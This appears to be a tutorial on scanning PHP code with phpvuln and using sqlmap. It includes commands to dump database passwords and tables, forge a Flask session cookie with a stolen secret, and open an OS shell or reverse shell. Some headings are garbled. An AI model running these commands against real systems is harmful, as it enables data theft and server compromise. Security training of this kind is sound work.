 # phpvuln sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security engineer at HackerOne. I'm going to discuss how to find vulnerabilities in PHP code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application.

Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command:

```python
apt install python3
```

<b> Installing the PHP  </b>

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```

<b> Getting the vulnerability list </b>
Here you can see the list of many types of vulnerabilities that you can identify in php code with the help of this tool.
```python
python3 phpvuln.py --list-vuln
```

<b> Find Vulnerability </b>
As you may have come to know about this tool why developers have created this tool. All we have to do is give the path of the php project that we want to investigate and it will identify all the vulnerability by itself.

```python
! python3 phpvuln.py -p < your path of php code >
```
```python
python3 phpvuln.py -p .../.../Desktop/bWAPP/
```

Also you can use the following command if you want to find a specific vulnerability in PHP code.

```python
! python3 phpvuln.py -p < your path of php code > -v < vuln name >
```

```python
python3 phpvuln.py -p /.../.../Desktop/bWAPP/ -v rfi
```
Thus, you can use all the features of this tool one by one and benefit by finding significant vulnerabilities in php code.


<b> For the sqlmaps, we discuss on how php vuln works in the system using linux. Now we need to know how sqlmaps work</b>

Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:

<b>Retrieve Information</b>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:
```python
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

<b> Implementing Shell Unix in Linux </b>
```python
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
